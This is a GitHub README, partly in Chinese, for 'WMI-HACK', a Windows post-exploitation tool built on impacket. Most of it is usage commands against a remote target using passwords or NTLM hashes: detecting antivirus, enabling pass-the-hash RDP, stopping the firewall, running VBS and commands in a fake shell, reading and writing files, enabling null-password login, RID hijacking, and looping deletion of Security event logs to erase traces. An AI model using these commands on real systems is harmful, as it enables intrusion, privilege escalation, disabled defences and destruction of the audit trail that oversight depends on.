










# WMI-HACK ##

## 更新 ##
* 基本功能实现
* 通过base64编码传入vbs，vbs base64解码避免中文或者其他语言造成latin-1编码问题  
* 更新RID劫持/用户启用或者禁用   
* 执行过程清除   

## 其他 ## 
1. 纯属写来练手,感谢离爹提供的帮助，推荐小离的项目:https://github.com/XiaoliChan/wmiexec-Pro    
2. vbs代码大量来源于网上

## 需求 ##
python3  
impacket模块
```text
pip3 install impacket
```

## 项目架构 ##
```text
├───img
├───module #模块
├───output #vbs调用产生的临时vbs文件夹
├───vbs #模块所使用的vbs模板
wmi_query.py
```

## 功能 ###
* 获取进程列表
    * 远程请求查询进程列表站点对比进程
* 用户名查询
* RDP开启/关闭
* PTH RDP登录开启/关闭
* winrm服务开启/关闭
* 防火墙规则查询
    * 启用的防火墙规则查询
    * 禁用的防火墙规则查询
    * 允许入站的防火墙规则查询
    * 禁止入站的防火墙规则连接
    * 启用允许入站的防火墙规则查询
    * 禁用防火墙入站的防火墙规则查询
    * 开启/关闭某条防火墙规则
* 防火墙查询/关闭/开启
* 运行vbs
    * 只运行一次vbs
* 日志清除
* 通过Win32_ScheduledJob命令执行 (适用于NT 6.0或以下)
* 通过vbs创建计划任务执行命令 (适用于NT 6.0以上)
    * 伪造的交互shell
* 文件写入/文件读取/文件删除
* 文件夹查询
* 空密码登录启用
* 用户RID查询
* RID劫持
* 执行过程清除

```text
Usage:
python wmi_query -i <target> -u <username> -p <password> -g #Get Process List
python wmi_query -i <target> -u <username> -p <password> -g -q #query Av/EDR/Process
python wmi_query -i <target> -u <username> -p <password> -U #User Query
python wmi_query -i <target> -u <username> -p <password> -R 1 #Enable rdp
python wmi_query -i <target> -u <username> -p <password> -R 0 #Disable rdp
python wmi_query -i <target> -u <username> -p <password> -R 2 #Query rdp Port
python wmi_query -i <target> -u <username> -p <password> -E 1 #Enable PTH rdp
python wmi_query -i <target> -u <username> -p <password> -E 0 #Disable PTH rdp
python wmi_query -i <target> -u <username> -p <password> -W 1 #Enable winrm service
python wmi_query -i <target> -u <username> -p <password> -F query # query all Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1 #query Enable Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2 #query Disable Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F querya #query inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F queryb #query outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1a #query Enable inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2a #query Disable inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1b #query Enable outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2b #query Disable outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query3 #query InstanceID Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F delete #delete InstanceID Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F disable #Disable a firewall rule
python wmi_query -i <target> -u <username> -p <password> -F enable #Enable a firewall rule
python wmi_query -i <target> -u <username> -p <password> -f query #query Firewall
python wmi_query -i <target> -u <username> -p <password> -f stop #stop Firewall
python wmi_query -i <target> -u <username> -p <password> -F start #start Firewall
python wmi_query -i <target> -u <username> -p <password> -V <vbs_path> #(vbs_id:Example) Run Vbs (The vbs is run repeatedly at intervals of 2 seconds, and the --stop_vbs parameter must be used to stop)
python wmi_query -i <target> -u <username> -p <password> --stop_vbs <vbs_id>/--stop_vbs 1 #-- stop 1 stop default(vbsid:Example) vbs running on repeat/stop use --stop <uuid>
python wmi_query -i <target> -u <username> -p <password> --one_vbs <vbs_path> #vbs that only runs once
python wmi_query -i <target> -u <username> -p <password> --execute_command <command> #To execute the command through Win32_ScheduledJob (NT 6.0), you need to wait for 1 minute
python wmi_query -i <target> -u <username> -p <password> --clear_eventlog #cear eventlog logName:appllication,system,setup,forwardedevents,security
python wmi_query -i <target> -u <username> -p <password> --clear_eventlog --cycle_clear# This will execute clear EventLog vbs forever(To stop use --stop <uuid>)
python wmi_query -i <target> -u <username> -p <password> --execute_command2 <command> #execute command
python wmi_query -i <target> -u <username> -p <password> --shell #Command execution mode 2 to get a fake shell
python wmi_query -i <target> -u <username> -p <password> --writefile <file_path> --save-to-file <save_file_path># remote file writing
python wmi_query -i <target> -u <username> -p <password> --readfile <target_file_path> --save-to-file <save_file_path># remote file reading
python wmi_query -i <target> -u <username> -p <password> --ls <target_file_path> #Query files and folders of a certain path
python wmi_query -i <target> -u <username> -p <password> --rdp-shadow <shadow_id> #Rdp Shadow Setting
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Enable null password login
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Disable null password login
python wmi_query -i <target> -u <username> -p <password> --user-rid-query #Users RID Query
python wmi_query -i <target> -u <username> -p <password> --ridhijack 1f5(src_id),1f4(target_rid) #Rid Hijack Example
python wmi_query -i <target> -u <username> -p <password> --set-user <rid>,0 #Disable User
python wmi_query -i <target> -u <username> -p <password> --set-user <rid>,1 #Enable User
python wmi_query -i <target> -u <username> -p <password> --cleartrace #Clear usage traces,On cycle clearEventLog Security
Usage: wmi_query.py [options]

Options:
  -h, --help            show this help message and exit
  -i IP                 target IP
  -u USERNAME           auth username
  -d DOMAIN             target domain
  -p PASSWORD           auth password
  -n NTLM               auth ntlm/lm
  -g                    get process list
  -q                    query Av/EDR/Process
  -U                    user list query
  -R ENABLE_RDP         enable rdp/disable rdp
  -E ENABLE_PTH         enable rdp pth login
  -W ENABLE_WINRM       enable winrm service
  -F NETFIREWALLRULE    Query/Enable/Disable NetFirewallRule
  -f FIREWALL           Start/Stop firewall
  -V VBS                Run vbs
  --stop_vbs=STOP_VBS   stop Default vbs  Runing or Stop the id of vbs running
  --one_vbs_run=ONE_VBS_RUN
                        vbs that only runs once
  --execute_command=EXECUTE_COMMAND
                        execute command (NT 6.0)
  --execute_command2=EXECUTE_COMMAND2
                        execute command
  --clear_eventlog=CLEAR_EVENTLOG
                        clear event log
  --cycle_clear         cycle clear eventlog
  --shell               fake shell
  --writefile=WRITEFILE
                        write file
  --readfile=READFILE   read file
  --save-to-file=OUTFILE
                        write file save as path
  --ls=LSDIR            Query files and folders of a certain path
  --dele-file=DELETEFILE
                        remove file
  --rdp-shadow=RDPSHADOW
                        rdp shadow setting (-1-Delete Shadow reg key,0-No
                        remote control allowed,1-Full Control with User
                        Rights,2-Full control without user permission,3-View
                        sessions with user permissions,4-View conversations
                        without user permission)
  --nulllogin=NONELOGIN
                        Login with empty password
  --user-rid-query      Users RID Query
  --ridhijack=RDIHIJACK
                        RID hijack (--ridhijack
                        <src_user_rid>,<target_user_rid>)
  --set-user=SETUSER    Enable/Disable User(--setuser <rid>,1/0)
  --cleartrace          Clear usage traces

```

## get process list ##


## Query Antivirus/EDR ##


## Users Query ##


## Enable/Disable Rdp ##
Disable RDP    


Enable RDP    


## Enable/Disable PTH rdp ##


**Windows7/Windows Server 2008,Not Found //./root/StandardCimv2 NameSpace
Unable to configure firewall rules**    


## Enable/Disable winrm Service ##


the Firewall Name set spance   


## Firewall rule setting ##
query all Firewall rule    


query Enable Firewall rule    


query Disable Firewall rule    


query inbound Firewall rule    


query outbound Firewall rule    


query Enable inbound Firewall rule    


...........    

query InstanceID Firewall rule     


enable/disable Firewall rule    


## Firewall setting ##


start/stop Firewall    


## fake shell ##




## write file ##




## read file ##


## ls file path ##


## RDP shadow ##


## User Enable/User Ridsable ##


## RID Hijack ##
使用  
1.启用空密码登录
```text
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Enable null password login
``` 
2.用户RID查询  
```text
python wmi_query -i <target> -u <username> -p <password> --user-rid-query
```
3.RID劫持   
```text
python wmi_query -i <target> -u <username> -p <password> --ridhijack 1f5(src_id),1f4(target_rid)
```


PS:  
RID劫持和启用用户/禁用用户会被某些杀毒拦截，使用时自行注意


## cleartrace ##
清除残留在`ROOT\subscription:ActiveScriptEventConsumer`下的UID和C:\Windows\Temp下命令执行
或者异常留下的txt，循环清除windows Security日志
